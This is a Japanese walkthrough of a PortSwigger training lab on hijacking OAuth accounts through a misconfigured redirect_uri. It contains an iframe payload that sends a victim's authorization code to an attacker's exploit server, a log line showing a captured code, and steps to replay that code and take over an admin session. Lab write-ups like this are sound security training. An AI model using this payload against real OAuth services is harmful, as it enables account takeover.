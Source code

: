 # redirect_uri を介した OAuth アカウントのハイジャック

次のハッキングラボを実施します  
https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri  
このラボでは、OAuth サービスを使用して、ユーザーがソーシャル メディア アカウントでログインできるようにします。OAuth プロバイダーの構成を誤ると、攻撃者が他のユーザーのアカウントに関連付けられた認証コードを盗むことが可能になります。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. 一般ユーザーで OAith ログインします
- 4. ログアウトします
- 5. 再度ログインします
- 6. GET /auth?client_id=XXX&redirect_uri=YYY リクエストを send to repeater します
- 7. redirect_url を任意の値に書き換えて送信するとリクエストが正常に処理されます
- 8. エクスプロイトサーバに移動します
- 9. ボディに次の形式で記載します

```
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

- 10. GET /oauth-callback?code=XXX リクエストを send to repeater します
- 11. 手順 7 のリクエストを右クリックして Copy URL を選択し、エクスプロイトサーバのボディ部にあてはめていきます

```
https://exploit-0a2e009c043dc3b3837ebea901c500fb
```

- 12. Store ボタン押下後、 Deliver expolit to victim ボタン押下
- 13. Access log を見ると、victim からのアクセスログがあります

```
10.0.4.195      2023-08-21 14:02:27 +0000 "GET /?code=kLcp-1zIifAsDrV_Sq1zo2HzJoF5RWgcsiuUFraly2q HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```

- 14. 手順 10 のリクエストのコードを Access log のものに入れ替えてリクエスト送信します
- 15. Response を右クリックして、Show Response in browser を選択します
- 16. 管理者ページが表示されるので一般ユーザーを削除します
